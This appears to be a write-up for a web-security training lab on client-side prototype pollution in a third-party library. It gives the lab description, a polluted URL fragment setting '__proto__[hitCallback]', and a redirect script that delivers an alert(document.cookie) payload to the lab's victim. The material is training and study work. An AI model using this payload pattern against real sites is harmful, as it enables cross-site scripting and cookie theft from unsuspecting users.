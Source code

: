 Title: Client-side prototype pollution in third-party libraries
Level: PRACTITIONER
Desc:  This lab is vulnerable to DOM XSS via client-side prototype pollution. This is due to a gadget in a third-party library, which is easy to miss due to the minified source code. Although it's technically possible to solve this lab manually, we recommend using DOM Invader as this will save you a considerable amount of time and effort.
To solve the lab:
Use DOM Invader to identify a prototype pollution and a gadget for DOM XSS.
Use the provided exploit server to deliver a payload to the victim that calls alert(document.cookie) in their browser.


# Walkthrough: 
DOM INVADER found XSS in URL: `https://0a90004e03848d5f80e503f700a500a0.web-security-academy.net/#__proto__[hitCallback]=alert%281%29`

Use vulnerable URL to craft attack for victim.
```
<script>
        window.location.href = "https://0a90004e03848d5f80e503f700a500a0.web-security-academy.net/#__proto__[hitCallback]=alert%28document%2ecookie%29";
 </script>

```
